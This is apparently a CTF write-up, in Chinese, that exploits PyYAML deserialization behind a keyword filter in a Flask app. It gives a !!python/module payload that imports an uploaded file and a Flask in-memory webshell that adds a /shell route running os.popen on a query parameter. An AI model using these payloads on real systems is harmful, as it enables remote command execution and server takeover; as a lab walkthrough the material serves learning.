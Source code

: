 ```python
```

requirements.txt

```
PyYAML~=6.0
Flask==2.0.2
Werkzeug~=2.2.2
SQLAlchemy~=1.4.41
flask_sqlalchemy~=2.5.1
PyMySQL~=1.0.2
```

/saying 路由存在 PyYAML 反序列化, 并且有 waf 过滤

参考文章 [https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml](https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml)

大多数关键词都被过滤了, 虽然可以用 `python/object/new` 导入模块, 但是过滤了 os 和 subprocess, 并且也用不了 builtins (tuple 被过滤)

```python
!!python/object/new:time.sleep
- 5
```

然后又看到了 ` python/module`, 并且刚好 writeblog 的时候可以上传文件, 于是猜测是要利用该标签导入模块来执行 python 代码

模块利用的是 /static/upload 目录, payload 如下

```python
!!python/module:static.upload
```

这里好像只能通过 `__init__.py` 来执行, 不能写成 `static.upload!exp` (static 目录下没有 `__init__.py` ?)

注意模块只能导入一次, 即 `__init__.py` 中的代码只能执行一次, 否则只能重开环境, 所以考虑使用 flask 内存马

参考文章 [https://xz.aliyun.com/t/10933](https://xz.aliyun.com/t/10933)

```python
from flask import *

url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

最后依次上传对应文件, 访问 /saying 传参 path 来反序列化 yaml

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311621253.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311621759.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311621319.png)

访问 /shell 执行命令

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311622751.png)
